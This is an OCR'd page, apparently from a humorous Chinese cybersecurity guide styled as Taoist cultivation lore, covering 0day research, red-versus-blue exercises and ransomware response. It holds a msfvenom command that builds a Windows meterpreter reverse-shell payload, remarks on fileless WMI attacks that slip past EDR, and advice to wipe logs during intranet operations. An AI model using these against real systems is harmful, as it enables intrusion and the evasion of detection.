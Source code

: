   ------
  
  ### 7.6 大罗洞观：0day天机推演
  
  上乘心法需参透Nday\0day\1day之辨：
  
  - **查CVE如观星**：某漏洞坤位属Struts2，坎位配OGNL
  - **写POC如画符**：Java反序列化要掐Buffer.allocate手决
  - **布利用若步罡**：Heap spraying暗含七星步法
  
  某次太一门（某APT组织）公用exp被各大门派加入特征库，幸好我派长老悟出《虚空炼器诀》——改用IPC$+WMI的无文件攻击，让EDR的照妖镜都成了睁眼瞎。
  
  ------
  
  ### 7.7 双全手：红蓝对抗の性命双修
  
  ```
  左手红队·通天箓 => 右手蓝队·金光咒
          \                 /
           \               /
            msfvenom -p windows/meterpreter/reverse_tcp LHOST=...
                       \___________________________/
                                    ||
                          《网络安全法》第三十二条警告！
  ```
  
  某日辅助某上市门派做护山大阵演练，红队肉身翻墙用二维码施展"快递符咒"（钓鱼攻击），蓝队以SIEM布下天罗地网。打得飞沙走石之际，CTO突然悟道："原来自家VPN的MFA竟比门童保安还没用！"
  
  ------
  
  🀄️ **渡劫要诀**：
  
  > - 发现0day务必存放在三清铃（加密U盘）
  > - 渗透前需算准生辰八字（指留意《网络安全法》追溯期）
  > - 在内网行动要施隐身诀（清除日志的level建议点到往生咒级别）
  > - 应急响应若遇难缠APT，速念「天塌了有等保2.3顶着！」
  
  ------
  
  道友，你已在三尸脑神丹（漏洞）与六脉神剑（防御）间站定，此界再无回头路。愿你遍历八奇技，终成数字大罗金仙！ 🧘♂️💻
  
  ------
  
  ## 第八章：应急降魔指南——当安全遇上九命猫妖
  
  ------
  
  🐈本章包含道门秘术与猫星人哲学，建议左手掐子午诀调试Wireshark，右手撸流浪猫缓解焦虑🐾
  
  ------
  
  ### 8.1 驱邪三清诀：勒索病毒应对大全
  
  | 道术等级   | 操作指南                                                     | 喵星人隐喻             |
  | ---------- | ------------------------------------------------------------ | ---------------------- |
  | **筑基期** | `systemctl stop smbd` 切断感染路径，如同剪断猫爪上的毛线球   | 被玩坏的逗猫棒需要冷藏 |
  | **金丹期** | 查看`ps -aux`找妖邪进程，比猫砂盆里翻埋屎还专注              | 在猫薄荷里找变异品种   |
  | **元婴期** | 用Volatility分析内存快照，发现`evil.dll`和`meow.ps1`同居修仙 | 橘猫吞噬系统资源.gif   |
  | **渡劫期** | 看到备份文件也被`_LOCKED_BY_ME0W`加密时，悟出道门真理——天劫总在你忘记云同步时来临 | 主子把备份硬盘当猫抓板 |
  